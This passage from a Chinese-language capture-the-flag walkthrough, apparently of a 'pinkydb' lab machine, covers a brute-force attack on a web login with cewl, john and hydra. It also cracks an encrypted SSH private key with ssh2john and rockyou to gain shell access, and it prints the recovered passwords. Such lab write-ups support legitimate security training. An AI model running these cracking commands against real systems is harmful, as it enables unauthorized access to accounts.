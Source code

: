 ```shell
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

端口现在是开放状态，`4655`端口是SSH服务，`7654`是HTTP服务

访问7654端口

![image-20241120130447791](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241120130447791.png)

进行爆破，用户名有两个`pinky`和`pinkdb`

利用`cewl`工具生成社工字典

```shell
cewl http://pinkydb/ -w pass.txt
```

利用john的内置的密码生成规则，生成一个新字典

```shell
john --rules --wordlist=pass.txt --stdout | tee wordlist.txt
```

hydra进行爆破

```shell
hydra -L user_list -P pass.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username"
```

![image-20241120141259190](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241120141259190.png)

```
[7654][http-post-form] host: pinkydb   login: pinky   password: Passione
```

成功登录后台

http://pinkydb:7654/credentialsdir1425364865/notes.txt

> - Stefano
> - Intern Web developer
> - Created RSA key for security for him to login

还有一个私钥文件

私钥文件被加密了，进行爆破

```
ssh2john id_rsa > ssh_hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh_hash
```

`id_rsa:secretz101`，成功爆破密码，SSH登录成功

## 提权
